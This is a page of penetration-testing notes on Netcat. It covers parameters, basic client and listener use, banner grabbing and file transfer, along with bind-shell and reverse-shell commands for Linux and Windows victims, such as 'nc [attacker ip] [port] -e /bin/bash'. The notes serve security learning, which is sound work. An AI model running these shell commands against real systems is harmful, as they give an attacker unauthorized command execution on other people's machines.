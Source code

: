 # Netcat

* TCP protocol
* no encryption for data transmitted

## netcat important parameters

> -l: Listen mode  
> -e: Program to execute after connection occurs  
> -n: Don't perform DNS lookups on names of machines on the other side  
> -v: verbose, printing out messages on Standard Error, such as when a connection occurs

## Basic usage

### Fundamental Client \(\#1\)

> nc \[ip address\] \[port\]

### Fundamental Listener \(\#2\)

> nc -l -p \[port\]

## Backdoor Shell

### Bind Shell

Bind shell is a type of shell in which the target machine opens up a communication port or a listener on the victim machine and waits for an incoming connection. The **attacker then connects to the victim** machine’s listener which then leads to code or command execution on the server.

![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/46f291a769efee2fa73a30a1e957eae1260ee5a5/assets/bind_shell.png)

#### netcat client \(\#1\) on **attacking machine** to access the shell

#### Command Execute on Victim Machine

#### Linux

> nc -l -p \[port\] -e /bin/bash

#### Windows

> C:&gt; nc -l -p \[port\] -e cmd.exe

### Reverse Shell

A reverse shell is a type of shell in which the target machine **communicates back** to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved.

![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/46f291a769efee2fa73a30a1e957eae1260ee5a5/assets/reverseshell.png)

#### netcat listener \(\#2\) on **attacking machine** to capture the shell

#### Command Execute on Victim Machine

#### Linux

> nc \[attacker ip\] \[attacker listen port\] -e /bin/bash

#### Windows

> C:&gt; nc \[attacker ip\] \[attacker listen port\] -e cmd.exe

## TCP Banner Grabbing

```
echo "" | nc -v -n -w1 [IP Address] [Ports]
echo -e "HEAD / HTTP/1.0\n\n" | nc 192.168.2.22 80
```

## Transferring a File

### Push a file from client to listener

Receiving ends:

> nc -l -p \[port\] **&gt;** \[filename to be saved\]

Sending ends:

> nc -w3 \[ip address\] \[port\] **&lt;** \[file to be send\]

### Pull a file from listener back to client

File host:

> nc -l -p \[port\] &lt; \[file to be pulled\]

Pulling ends:

> nc -w3 \[ip address\] \[port\] **&gt;** \[file to be retrieve\]

